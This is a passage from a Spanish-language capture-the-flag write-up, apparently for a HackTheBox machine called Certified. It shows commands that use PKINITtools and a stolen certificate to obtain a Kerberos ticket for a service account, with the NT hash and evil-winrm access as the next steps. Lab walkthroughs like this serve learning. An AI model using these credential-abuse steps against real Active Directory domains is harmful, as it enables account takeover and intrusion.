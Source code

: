 ![image](../zimages/Pasted_image_20250323225432.png)

Como bien nos dice el script, hay que instalarse PKINITtools para obtener el TGT:

```bash
git clone https://github.com/dirkjanm/PKINITtools
```

Si ejecutamos el script con python, vemos las instrucciones:

![image](../zimages/Pasted_image_20250323230407.png)

```bash
python3 gettgtpkinit.py -cert-pfx ../pywhisker/ndfaDtp0.pfx -pfx-pass 3C0FVnMDwNoImap9cbQc -dc-ip 10.10.11.41 certified.htb/management_svc management_svc.ccache
```

Y así obtenemos el TGT y un hash:

![image](../zimages/Pasted_image_20250323230914.png)

El cual usaremos ahora para obtener el NTHash y así poder acceder a la máquina mediante `evil-winrm`:

![image](../zimages/Pasted_image_20250323231013.png)
